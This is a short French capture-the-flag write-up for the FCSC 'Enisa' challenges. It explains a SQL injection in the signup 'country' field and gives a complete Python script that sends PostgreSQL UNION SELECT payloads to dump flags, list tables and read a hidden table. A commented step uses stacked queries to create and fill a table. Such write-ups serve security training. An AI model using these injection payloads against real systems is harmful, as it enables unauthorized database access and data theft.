

# Enisa 1 et 2

La faille était comme vu dans `enisa1` le paramètre `country` au moment de *s'enregistrer* dans le SGBD postgresql.

Script de **Spawn Zii**:

```python
import requests
import random
import string
from bs4 import BeautifulSoup


def get_random_string(length):

    letters = string.ascii_lowercase
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

def register(payload):
    password = get_random_string(4)
    username = password
    url = "https://enisa-flag-store.france-cybersecurity-challenge.fr/signup"
    params = {"username" : f"{username}", "password" : f"{password}","token" : "ohnah7bairahPh5oon7naqu1caib8euh","country" : f"{payload}"}
    r = requests.post(url,params=params)
    if '192 characters' in r.text:
        username = "size2long"
    return username

def login(username):
    if username != "size2long":
        s = requests.Session()
        url = "https://enisa-flag-store.france-cybersecurity-challenge.fr/login"
        params = {"username":f"{username}","password":f"{username}"}
        s.post(url,params=params)
        
        r = s.get("https://enisa-flag-store.france-cybersecurity-challenge.fr/flags")

        if 'FAKE' not in r.text:
            print(r.content)
        else:
            soup = BeautifulSoup(r.text)
            for p in soup.find_all('code'):
                if 'FAKE' in str(p):
                    pass
                else:
                    print(p)
                    print (username)
    else:
        print('PAYLOAD TO LONG :( ')


#________________STEP_1/2_____________________#

pld = "fr'union SELECT '','',flag,1 FROM public.flags--" 
login(register(pld))

#________________STEP_1/2_____________________#

pld_table = "fr'union SELECT '','',table_name,1 FROM information_schema.tables--" # get table name __s3cr4_t4bl3__
pld = "fr'union SELECT '','',*,1 FROM __s3cr4_t4bl3__--"
login(register(pld))

#________________STEP_TROLL_____________________#

# pld1 = "fr';CREATE TABLE FCSC_SECRET(t text)--"
# pld = "fr';INSERT INTO FCSC_SECRET(t) VALUES('https://t.ly/XnyN')--"

# login(register(pld))
```


